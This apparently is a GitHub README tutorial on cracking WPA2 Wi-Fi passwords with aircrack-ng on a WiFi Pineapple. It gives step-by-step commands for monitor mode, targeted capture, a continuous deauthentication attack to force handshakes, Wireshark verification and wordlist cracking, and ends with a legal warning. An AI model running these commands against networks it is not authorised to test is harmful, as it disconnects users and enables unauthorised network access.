




# Crack_WiFI_WPA2-via-WiFi_Pineapple_CLI
Cracking WPA2 using Aircrack-ng through WiFi Pineapple MKVII CLI

### Pre-requirements :

- Aircrack-ng : `sudo apt install aircrack-ng`
- WiFi Pineapple MKVII (or any other WiFi Adapter. TIP:Whenever you’re choosing an external Wi-Fi adapter, make sure that it supports both 2.4Ghz and 5Ghz band.

My setup


### Terminal-1
  1. Detect your wireless network interface
<pre lang="markdown">iwconfig</pre>


  2. If interface not in monitor mode Run:
<pre lang="markdown">airmon-ng start &lt;interface&gt;</pre>


  3. Capture traffic
<pre lang="markdown">airodump-ng &lt;interface&gt</pre>


  4. To set WiFi Pineapple at 5GHz Run:     
<pre lang="markdown">airmon-ng &lt;interface&gt channel 48;</pre>



  5. Capture traffic 5GHz band
     <pre lang="markdown">airodump-ng &lt;interface&gt --channel 48</pre>

### Terminal-2

  6. select target and focus on one AP on a specific channel:
<pre lang="markdown">airodump-ng -c &lt;channel&gt; -w &lt;filename&gt; -d &lt;AP_BSSID&gt; &lt;interface&gt;</pre>

### Example:

<pre lang="markdown">airodump-ng -c2 -w capture_wpa2 -d 00:11:22:33:44:55 wlan3mon</pre>

### Explanation:
- **`-c 2`** → Specifies the Wi-Fi channel (replace with your target AP’s channel).
- **`-w capture_wpa2`** → Defines the output filename (`capture_wpa2.cap`).
- **`-d 00:11:22:33:44:55`** → Filters by target AP’s BSSID.
- **`wlan3mon`** → Your network interface in monitor mode.

Once executed, the `.cap` file will be created, which can be used for further analysis.

  

### Terminal-3
  7. Send deauthentication packets to the target
     
<pre lang="markdown">aireplay-ng --deauth 0 -a &lt;BSSID/AP's MAC&gt; -c &lt;Target/Station MAC&gt; &lt;interface&gt;</pre>

  

As packets are sent, the number of captured frames from the target increases. This continues until the device eventually gets disconnected, allowing you to capture the WPA/WPA2 handshake.
  


  8. Capture handshake : it will be shown in the monitor if captured ! at Terminal-2.
  

  9. Now you got the handshake(terminal-2)
  10. Stop the process at terminal-2:
      >ctrl+c

### 🔍 Checking WPA2 Handshake in Wireshark
Once the handshake is captured, follow these steps to verify it:

#### Open the Captured File
Run the following command to open the `.cap` file in Wireshark:

```bash
wireshark capture_wpa2-01.cap
```

#### Apply a Filter
In Wireshark’s **filter bar**, enter the following filter and press **Enter**:

```plaintext
eapol
```

This filters out only **EAPOL (Extensible Authentication Protocol over LAN) packets**.

#### Verify the 4-Way Handshake
Look for **four EAPOL messages** exchanged between the client (station) and the AP (router):

- **Message 1** → Sent by AP to the client.
- **Message 2** → Client replies.
- **Message 3** → AP sends another message.
- **Message 4** → Final response from the client.

#### Confirm Success

- ✅ If **all 4 messages** are captured, you've successfully grabbed the handshake! 🎉
- ❌ If you see only **2 or 3 messages**, the handshake is incomplete, and you may need to retry.



### 🔓 Cracking the WPA2 Handshake
Once you have successfully captured the WPA2 handshake, you can attempt to crack the password using `aircrack-ng`.

#### Run the Following Command
Use a wordlist to attempt the password crack:

```bash
aircrack-ng -w [wordlist.txt] -b [BSSID] capture_wpa2-01.cap
```

- `-w [wordlist.txt]`: Path to your dictionary file (e.g., `rockyou.txt`).
- `-b [BSSID]`: The target network’s MAC address.
- `capture_wpa2-01.cap`: The file containing the captured handshake.


#### Wait for the Results
If the password is in the wordlist, `aircrack-ng` will reveal it. If not, you may need a more extensive wordlist or other cracking techniques.



## ⚠ Legal Warning
This script should **only** be used on networks you own or have **explicit permission** to test. Unauthorized use is a violation of **cybercrime laws**.

---


